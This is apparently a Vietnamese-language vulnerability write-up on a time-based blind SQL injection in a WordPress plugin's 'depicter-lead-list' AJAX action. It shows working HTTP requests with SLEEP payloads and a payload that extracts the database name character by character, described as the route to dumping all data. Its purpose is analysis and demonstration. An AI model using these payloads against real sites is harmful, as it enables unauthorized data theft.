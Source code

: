 ### Detect SQLi

Gửi **GET request** chứa payload SQLi.

```http
GET /wp-admin/admin-ajax.php?action=depicter-lead-list&s=999%25'+AND+(SELECT+1+FROM+(SELECT+SLEEP(5))a))+--+-+ HTTP/1.1
Host: localhost
...
Cookie: cookie_here
```

Payload được decode:

```sql
999%' AND (SELECT 1 FROM (SELECT SLEEP(5))a)) -- -
```

Khi đó một phần của câu query trở thành

```sql
AND (lf.value like '999%' AND (SELECT 1 FROM (SELECT SLEEP(5))a)) -- ' OR leadtable.content_name like '999%' AND (SELECT 1 FROM (SELECT SLEEP(5))a)) #')
```

![response time](resp_time.png "Thời gian phản hồi thể hiện payload hoạt động")

👉 Dựa trên thời gian phản hồi => payload hoạt động.

**Subquery trong mệnh đề FROM**: Truy vấn con được coi là bảng tạm thời. MySQL phải thực thi truy vấn con này đầu tiên để tạo bảng tạm thời, sau đó mới thực thi truy vấn chính.

### Get First Letter of Database Name

Điều kiện tiên quyết để **dump được hết data** là phải dump được 1 ký tự bất kỳ của tên database, nếu lấy được thì gần như toàn bộ data đều dump được.

Gửi request với **SQLi payload**:

```http
GET /wp-admin/admin-ajax.php?action=depicter-lead-list&s=999%25'+AND+(SELECT+1+FROM+(SELECT+IF(SUBSTRING(SCHEMA(),1,1)=0x77,SLEEP(5),1))a))+--+-+ HTTP/1.1
Host: localhost
...
Cookie: cookie_here
```
